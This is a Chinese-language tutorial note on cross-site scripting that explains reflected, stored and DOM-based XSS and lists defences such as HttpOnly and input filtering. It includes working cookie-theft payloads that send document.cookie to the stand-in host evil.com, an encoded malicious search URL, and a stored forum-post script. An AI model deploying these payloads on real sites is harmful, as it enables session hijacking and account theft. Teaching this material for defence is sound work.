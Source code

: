 # Cross-site Scripting  跨站脚本攻击


<!-- TOC -->

- [Cross-site Scripting  跨站脚本攻击](#cross-site-scripting--%E8%B7%A8%E7%AB%99%E8%84%9A%E6%9C%AC%E6%94%BB%E5%87%BB)
    - [基本原理](#%E5%9F%BA%E6%9C%AC%E5%8E%9F%E7%90%86)
    - [XSS 类型](#xss-%E7%B1%BB%E5%9E%8B)
    - [XSS Payload](#xss-payload)
        - [用于 Cookie 劫持的 Payload](#%E7%94%A8%E4%BA%8E-cookie-%E5%8A%AB%E6%8C%81%E7%9A%84-payload)
        - [如果进行反射型 XSS](#%E5%A6%82%E6%9E%9C%E8%BF%9B%E8%A1%8C%E5%8F%8D%E5%B0%84%E5%9E%8B-xss)
        - [如果进行存储型 XSS：](#%E5%A6%82%E6%9E%9C%E8%BF%9B%E8%A1%8C%E5%AD%98%E5%82%A8%E5%9E%8B-xss)
    - [防御手段](#%E9%98%B2%E5%BE%A1%E6%89%8B%E6%AE%B5)
    - [References](#references)

<!-- /TOC -->


## 基本原理
将可以加载脚本的代码（例如 `<script>`、`<img>` 等）注入到 DOM，实现加载恶意的脚本。


## XSS 类型
* 反射型 XSS
* 存储型 XSS
* DOM Based XSS


## XSS Payload
用以完成各种具体功能的恶意脚本，被称为 XSS Payload。XSS Payload 实际上就是 JS 脚本，或者其他 Flash 等富客户端脚本。

### 用于 Cookie 劫持的 Payload
1. payload 脚本  `http://www.evil.com/payload.js` 中有如下代码
    ```js
    var img = document.createElement('img');
    img.src = 'http://www.evil.com/log?' + encodeURIComponent(document.cookie);
    document.body.appendChild(img);
    ```
2. 只要上述代码在客户端被运行，则 `http://www.evil.com/log` 就可以获取到客户端的 cookie。
3. 下面通过反射型和存储型两种类型的 XSS 来运行 payload 脚本。

### 如果进行反射型 XSS
1. 假如网站 `www.foo.com` 的搜索功能有 XSS 漏洞，会把用户输入的内容直接添加到 DOM 中。
2. 例如用户通过在搜索框里输入 "你好"，会跳转到搜索结果页 `http://www.foo.com/search?word=%E4%BD%A0%E5%A5%BD`，并且页面上会显示："以下是 你好 的搜索结果"。
3. 这里假设网页直接把用户的输入内容添加到的 DOM 里而没有进行检查和编码。
4. 那么如果用户输入的是 "`<script>alert()</script>`"，在搜索结果页就会出现这个弹窗。
5. 同理，如果我们搜索 "`<script src="http://www.evil.com/payload.js"></script>`"，页面就会加载这个脚本。
6. 当然这个是我们自己搜索的，只会获得自己的 cookie。除非你诱导其他人搜索这么奇怪的一串字符。
7. 但是可以看到，如果直接访问 `http://www.foo.com/search?word=%E4%BD%A0%E5%A5%BD`，其实是和搜索 "你好" 一样的效果。所以，可以把 `<script src="http://www.evil.com/payload.js"></script>` 编码为 `%3Cscript%20src%3D%22http%3A%2F%2Fwww.evil.com%2Fpayload.js%22%3E%3C%2Fscript%3E`，在拼装出搜索结果页的 URL `http://www.foo.com/search?word=%3Cscript%20src%3D%22http%3A%2F%2Fwww.evil.com%2Fpayload.js%22%3E%3C%2Fscript%3E`。
8. 现在，只要诱导用户跳转到这个链接，就可以在搜索结果页加载 payload 脚本。
9. 如果当前用户此时在该网站为登录状态且保存了 cookie，则该 cookie 就会被 `payload.js` 发送到 `http://www.evil.com/log`。

### 如果进行存储型 XSS：
1. 假如网站 `www.foo.com` 的论坛有 XSS 漏洞，会将用户发帖中的 HTML 标签直接添加进 DOM 从而变得可执行。  
2. 直接把 `payload.js` 中的代码放在 `<script>` 标签里作为帖子内容的一部分发出去
    ```html
    <script>
    var img = document.createElement('img');
    img.src = 'http://www.evil.com/log?' + encodeURIComponent(document.cookie);
    document.body.appendChild(img);
    </script>
    ```
3. 只要有用户进入这个帖子，上述脚本就会获取用户的 cookie 并发送。


## 防御手段
* `HttpOnly`：cookie 不能通过脚本读取。
* 输入检查：过滤或者转码有危害的输入。
* `X-XSS-Protection` 首部。


## References
* [Content-Security-Policy](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Security-Policy)
* [白帽子讲Web安全](https://book.douban.com/subject/10546925/)
* <a href="https://www.owasp.org/index.php/Cross-site_Scripting_(XSS)">WASP</a>
